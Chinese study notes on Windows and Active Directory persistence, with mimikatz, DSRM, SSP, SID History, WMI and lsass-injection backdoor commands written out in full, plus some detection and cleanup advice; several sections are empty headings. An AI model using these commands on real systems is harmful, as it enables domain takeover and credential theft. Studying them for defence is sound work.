




# 第八章 权限维持分析及防御

## 8.1 操作系统后门分析与防范

### 粘滞键后门

### 注册表注入后门

这个在ATT&CK中的Persistence一章中的Registry Run Keys / Startup Folder中有提到。命令如下：

```
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v RegRun /t REG_SZ /d "c:\windows\system32\calc.exe"
```

### 计划任务后门

### meterpreter后门

### Cymothoa后门

下载地址：https://sourceforge.net/projects/cymothoa/

安装可参照https://blog.csdn.net/qq_17204441/article/details/88834099

```
./cymothoa -s 0 -p <process id> -y <port>
```

安装成功后使用nc等工具连接设置的端口即可。

### WMI后门

WMI后门的特征是无文件和无进程，将代码加密存储于WMI中，达到所谓的无文件，当设定的条件被满足时，系统将自动启动Powershell进程去执行后门程序，执行后进程将会消失。

Empire下有WMI相关的模块可以使用：

```
usemodule powershell/persistence/elevated/wmi
```

可以在目标主机中使用命令查看存在的后门：

```
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer
```

清理WMI后门的方法：删除自动运行列表中的恶意WMI条目，使用Get-WMIObject命令删除与WMI持久化相关的组件。

## 8.2 WEB后门

### Nishang下的WEBShell

### Weevely后门

### webacoo后门工具

## 8.3 域控制器权限持久化分析与防范

### DSRM后门

使用mimikatz查看krbtgt账户密码hash值

```
 .\mimikatz.exe "privilege::debug" "lsadump::lsa /patch /name:krbtgt" exit
```


查看SAM文件中本地管理员的NTLM HASH值

```
.\mimikatz.exe "token::elevate" "lsadump::sam" exit
```



这里的4cb开头的hash就是DSRM hash，将DSRM hash和kebtgt的密码同步：

```
ntdsutil
set dsrm password
SYNC FROM DOMAIN account krbtgt
q
```

再次查看会发现DSRM密码和krbtgt的密码相同，然后修改DSRM的登陆方式，这个注册表键值为2表示"在任何情况下都可以使用DSRM管理员账号登陆域控制器"：

```
New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
```

使用mimikatz进行pth攻击：

```
.\mimikatz.exe "privilege::Debug" "sekurlsa::pth /domain:DC /user:administrator /ntlm:XXXXXXXXXXX"
```

DSRM后门防御措施：

```
检查hklm\system\currentcontrolset\control\lsa\dsrmadminlogonbehavior注册表键值的值，确认值为1
定期修改DSRM的账号
经常检查ID为4794的日志
```

### SSP维持域控权限

方式一：

```
.\mimikatz.exe "privilege::debug" "misc::memssp" exit
```

注销之后执行命令查看明文密码：

```
powershell.exe cat c:\windows\system32\mimilsa.log
```


方式二：

```
powershell.exe cp .\mimilib.dll C:\Windows\System32\
Set-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "Security Packages" -value "mimilib.dll"
```

重启之后使用命令查看密码：

```
powershell.exe cat c:\windows\system32\kiwissp.log
```



防御措施：

```
查看hklm\system\currentcontrolset\control\lsa\Security Packages注册表项是否含有可疑的DLL文件
检查C:\windows\system32\目录下是否存在可疑的文件
第三方工具检查
```

### SID History后门

test为恶意账户，administrator

```
Import-module ActiveDirectory
Get-ADUser xiaom -Properties sidhistory

.\mimikatz.exe "privilege::Debug" "sid::patch" "sid::add /sam:xiaom /new:administrator" exit
```



此时使用xiaom账号可以访问域控



### Golden Ticket and Silver Ticket

### Skeleton Key

### Hook PasswordChangeNotify

这个方法要使用Invoke-ReflectivePEInjection.ps1将HookPasswordChange.dll注入内存，在目标系统中启动管理员权限的powershell：

```
. .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
```

此时如果再修改用户密码则修改之后的密码会记录在C:\windows\Temp\password.txt文件中。

工具下载地址：https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1

https://github.com/clymb3r/Misc-Windows-Hacking

参考地址：http://www.vuln.cn/6812

## 8.4 Nishang下的脚本后门分析与防范

### HTTP-Backdoor

### Add-ScrnSaveBackdoor

### Execute-OnTime

### Invoke-ADSBackdoor